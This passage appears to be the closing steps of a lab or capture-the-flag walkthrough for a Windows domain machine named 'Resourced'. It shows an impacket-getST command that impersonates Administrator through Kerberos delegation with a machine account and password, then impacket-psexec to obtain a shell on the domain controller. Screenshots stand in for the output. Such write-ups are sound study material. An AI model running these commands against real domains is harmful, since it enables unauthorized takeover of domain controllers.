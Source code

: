 `sudo impacket-getST -spn cifs/Resourcedc.Resourced.local -impersonate Administrator -dc-ip 192.168.191.175 Resourced.local/SERVICEA$:123456`

![4be8af17f229ab80dcf7b4f971d5fa2c.png](/assets/img/screenshots/Resourced/4be8af17f229ab80dcf7b4f971d5fa2c.png)

Add Resourcedc.Resourced.local entry to /etc/hosts and run the command

`impacket-psexec -k Resourcedc.Resourced.local`

![1c139b8a17abfd25877be8716f8dde2b.png](/assets/img/screenshots/Resourced/1c139b8a17abfd25877be8716f8dde2b.png)

Pwn3d! :D
